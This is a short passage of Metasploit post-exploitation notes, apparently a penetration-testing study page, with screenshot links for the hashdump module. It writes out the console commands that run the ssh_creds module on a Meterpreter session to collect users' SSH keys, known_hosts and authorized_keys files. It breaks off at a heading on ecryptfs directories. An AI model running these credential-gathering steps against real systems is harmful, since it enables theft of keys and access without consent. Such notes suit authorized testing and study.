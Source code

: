 ![Metasploit - post/linux/gather/hashdump](3-metasploitassets/image-20230422144950444.png)

![loot](3-metasploitassets/image-20230422145236520.png)

### Some Post Exploitation

- Enumerate **ssh** directories

```bash
search ssh_creds
use post/multi/gather/ssh_creds
info
# Description:
#   This module will collect the contents of all users' .ssh directories 
#   on the targeted machine. Additionally, known_hosts and 
#   authorized_keys and any other files are also downloaded. This module 
#   is largely based on firefox_creds.rb.
sessions
# Set the Meterpreter session
set SESSION 2
run
```

![Metasploit - post/multi/gather/ssh_creds](3-metasploitassets/image-20230422145010635.png)

- Enumerate users' **.ecrypts directories**
